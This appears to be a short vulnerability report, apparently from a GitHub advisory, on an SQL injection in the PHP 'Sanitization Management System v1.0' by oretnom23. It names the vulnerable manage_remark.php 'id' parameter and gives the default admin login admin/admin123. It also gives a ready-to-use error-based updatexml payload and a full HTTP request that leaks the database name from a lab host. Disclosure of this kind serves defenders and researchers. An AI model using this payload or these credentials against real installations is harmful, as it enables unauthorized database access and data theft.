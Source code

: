 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Distance

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/quotes/manage_remark.php?id=

Vulnerability location: /php-sms/admin/quotes/manage_remark.php?id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/quotes/manage_remark.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /php-sms/admin/quotes/manage_remark.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195977864-e81a89e4-43c7-42a5-a44c-88a71b1cd72d.png)
